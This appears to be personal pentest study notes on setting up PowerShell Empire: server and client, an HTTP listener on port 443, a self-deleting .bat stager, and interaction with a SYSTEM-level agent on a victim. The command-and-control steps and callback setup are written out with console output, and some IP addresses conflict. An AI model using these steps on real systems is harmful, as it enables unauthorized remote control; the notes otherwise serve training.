 # PowerShell Empire

A post-exploitation framework which is useful once foothold is obtained.

### Stating up PSempire

* Setup a server

`sudo powershell-empire server`

Server manages all requests and can be understood as a multi-player game server

Server address once started can be like `[*] Starting Empire RESTful API on 0.0.0.0:1337`

* Setup a client

Via client attacker uses server to attack victims. Connect to server address show like one above:

```bash

sudo powershell-empire client

#in the psempire shell connect to local host or other ip

(Empire) > connect -c localhost

[*] Connected to localhost

```

### Connecting to Victim

* To connect to victim it is necessary to setup a `listener` and a `stager`
* listener is going to wait on you attacker host for the stager, which is on victim host, to connect

#### Setup a Listener

```bash
#lsit listeners
(Empire) > listeners

#none right now
┌Listeners List──────┬───────────────────┬────────────┬─────────┐
│ ID │ Name │ Module │ Listener Category │ Created At │ Enabled │
└────┴──────┴────────┴───────────────────┴────────────┴─────────┘

#available listeners
(Empire: listeners) > uselistener

#press TAB after uselistener and get a list of possible listeners
(Empire: listeners) > uselistener
                                   dbx             
                                   http            
                                   http_com        
                                   http_foreign    
                                   http_hop        
                                   http_malleable  
                                   onedrive        
                                   redirector      

#http listener is always a good choice since not blocked mostly by FWs

(Empire: listeners) > uselistener http

 Author       @harmj0y                                                              
 Description  Starts a http[s] listener (PowerShell or Python) that uses a GET/POST                                                  
```

Now like with Metasploit set the attacker listener IP and port

```bash

(Empire: uselistener/http) > set Host 192.168.115.111
[*] Set Host to 192.168.119.158
(Empire: uselistener/http) > set Port 443
[*] Set Port to 443

#execute and enjoy

(Empire: uselistener/http) > execute
[+] Listener http successfully started

```

#### Setup a stager

Now somehow we need to connect to a victim. There are two ways of doing it:

1. bind: we connect to a victim
2. reverse: victim connects to us

Both of those ways need a stager that must be transferred to victim and activated preferrably with root or SYSTEM privileges.

```bash
#generate windows stager

(Empire: listeners) > usestager windows/launcher_bat

 Author       @harmj0y                                                            
 Description  Generates a self-deleting .bat launcher for Empire. Only works with 
              the HTTP and HTTP COM listeners.                                    
 Name         windows/launcher_bat  

#assign listener to stager

(Empire: usestager/windows/launcher_bat) > set Listener http
[*] Set Listener to http

# generate stager file 

(Empire: usestager/windows/launcher_bat) > execute
[+] stage1.bat written to /var/lib/powershell-empire/empire/client/generated-stagers/stage1.bat

#upload this stage file to victim host and launch it
#on success you see

[*] Sending agent (stage 2) to TV6GENUD at 192.168.158.10

# check if its really there 

(Empire: usestager/windows/launcher_bat) > agents

┌Agents──────────┬────────────┬───────────────┬─────────────┬
│ 1  │ TV6GENUD* │ powershell │ 172.16.158.10 │ corp\SYSTEM │ powershell │ 3708 │ 5/0.0 │ 2023-03-06 20:40:24 CET │ http     │

# looks good
# start using the connected agent

(Empire: agents) > interact TV6GENUD
(Empire: TV6GENUD) >


```